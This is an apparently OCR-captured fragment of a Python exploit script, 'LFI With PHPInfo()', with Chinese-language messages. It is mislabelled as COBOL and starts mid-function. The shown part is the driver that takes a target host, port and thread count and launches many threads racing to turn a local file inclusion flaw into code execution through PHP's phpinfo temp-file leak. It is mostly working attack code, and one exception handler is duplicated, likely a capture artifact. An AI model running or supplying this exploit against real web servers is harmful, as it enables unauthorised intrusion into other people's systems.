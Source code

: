 ```cobol
        raise ValueError("在phpinfo输出中未找到php tmp_name")
 
    print("在位置 %i 找到 %s" % (i, d[i:i + 10].decode()))
    # 加一些填充
    return i + 256
 
 
def main():
    print("LFI With PHPInfo()")
    print("-=" * 30)
 
    if len(sys.argv) < 2:
        print("用法：%s 主机 [端口] [线程数]" % sys.argv[0])
        sys.exit(1)
 
    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error as e:
        print("主机名 %s 无效，请确保输入正确的主机名或IP地址。" % sys.argv[1])
        host = socket.gethostbyname(sys.argv[1])
    except socket.error as e:
        print("主机名 %s 无效，请确保输入正确的主机名或IP地址。" % sys.argv[1])
        sys.exit(1)
 
    port = int(sys.argv[2]) if len(sys.argv) > 2 else 80
    numthreads = int(sys.argv[3]) if len(sys.argv) > 3 else 10
 
    phpinforeq, tag, lfireq = setup(host, port)
    offset = getOffset(host, port, phpinforeq)
 
    print("\n[*] 开始进行LFI攻击...")
    threads = []
    e = threading.Event()
    l = threading.Lock()
 
    try:
        for i in range(numthreads):
            t = ThreadWorker(e, l, 100, host, port, phpinforeq, offset, lfireq, tag)
            threads.append(t)
            t.start()
 
        while not e.is_set():
            try:
                e.wait(1)
            except KeyboardInterrupt:
                print("\n[*] 收到中断信号，正在停止攻击...")
                e.set()
 
    except socket.error as e:
        print("连接错误：%s" % str(e))
 
    for t in threads:
        t.join()
 
    print("\n[*] 攻击结束。")
 
 
if __name__ == "__main__":
    main()
```
